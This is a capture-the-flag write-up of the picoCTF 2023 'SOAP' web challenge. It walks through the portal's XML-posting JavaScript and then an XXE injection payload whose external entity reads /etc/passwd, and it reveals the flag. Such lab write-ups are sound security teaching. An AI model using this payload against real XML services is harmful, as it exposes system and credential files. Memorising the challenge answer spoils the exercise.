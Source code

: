 # SOAP

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Author: Geoffrey Njogu

Description

The web project was rushed and no security assessment was done. Can you read the `/etc/passwd` file?

[Web Portal](http://saturn.picoctf.net:54504/)

## Enumeration

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoCTF-2023/images/Pasted%20image%2020230315202245.png)

**View source page:**
```html
<form class="detailForm" action="/data" method="POST">
    <input required type="hidden" name="ID" value="1">
<button type="submit" class="btn btn-sm
  btn-outline-secondary">Details</button>
</form>
[...]
<form class="detailForm" action="/data" method="POST">
    <input required type="hidden" name="ID" value="2">
<button type="submit" class="btn btn-sm
  btn-outline-secondary">Details</button>
</form>
[...]
<form class="detailForm" action="/data" method="POST">
    <input required type="hidden" name="ID" value="3">
  <button type="submit" class="btn btn-sm
  btn-outline-secondary">Details</button>
</form>
[...]
<script src="/static/js/xmlDetailsCheckPayload.js"></script>
<script src="/static/js/detailsCheck.js"></script>
[...]
```

In here, we see there are 3 HTML forms. When the "Details" button is clicked, it'll send a POST request to `/data` with parameter `ID`.

**It also imported 2 JavaScript files.**

**`/static/js/xmlDetailsCheckPayload.js`:**
```js
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
```

**In the above, the `payload(data)` function is just constructing an XML data structure:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<data>
    <key>value</key>
</data>
```

**`/static/js/detailsCheck.js`:**
```js
document.querySelectorAll('.detailForm').forEach(item => {
    item.addEventListener("submit", function(e) {
        checkDetails(this.getAttribute("method"), this.getAttribute("action"), new FormData(this));
        e.preventDefault();
    });
});
function checkDetails(method, path, data) {
    const retry = (tries) => tries == 0
        ? null
        : fetch(
            path,
            {
                method,
                headers: { 'Content-Type': window.contentType },
                body: payload(data)
            }
          )
            .then(res => res.status == 200
                ? res.text().then(t => t)
                : "Could not find the details. Better luck next time :("
            )
            .then(res => document.getElementById("detailsResult").innerHTML = res)
            .catch(e => retry(tries - 1));

    retry(3);
}
```

What this does is sending a POST request to `/data` endpoint, with function `payload(data)`'s output body.

**Now, let's click on those "Details" buttons!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoCTF-2023/images/Pasted%20image%2020230315202914.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoCTF-2023/images/Pasted%20image%2020230315202928.png)

As you can see, we're sending XML data.

Armed with above information, we can move onto the exploitation session.

## Exploitation

In this challenge's title, it's **SOAP**.

> SOAP XML is a messaging protocol specification for exchanging structured information in the implementation of web services in computer networks.

That being said, we can try to exploit ***XXE (XML External Entity) injection***!

**Now, we can send the POST `/data` request to Burp Suite's Repeater, and change the `</ID>` key to anything:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoCTF-2023/images/Pasted%20image%2020230315203202.png)

As you can see, ***our invalid ID is reflected to the response***!!

**With that said, we can try to retrieve information by injecting arbitrary XML data!**

**Payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>
    <ID>&xxe;</ID>
</data>
```

**What this payload does is we defined:**

- The root element of the document is `root` (`!DOCTYPE root`)
- Then, inside that root element, **we defined an external entity (variable) called `xxe`, which is using keyword `SYSTEM` to fetch file `/etc/passwd`**
- Finally, we want to **use the `xxe` entity in `<ID>` tag**, so we can see the output of `/etc/passwd`. To do so, we need to use `&entity_name;`

**Let’s send our XXE payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoCTF-2023/images/Pasted%20image%2020230315203446.png)

Nice! We successfully exploited an XXE vulnerability, and retrieved `/etc/passwd` content!!

> Note: If you want to learn more about XXE, you could read my PortSwigger Labs [writeups](https://siunam321.github.io/ctf/portswigger-labs/XXE-Injection/xxe-1/)!

- **Flag: `picoCTF{XML_3xtern@l_3nt1t1ty_6d333638}`**

## Conclusion

What we've learned:

1. XXE Injection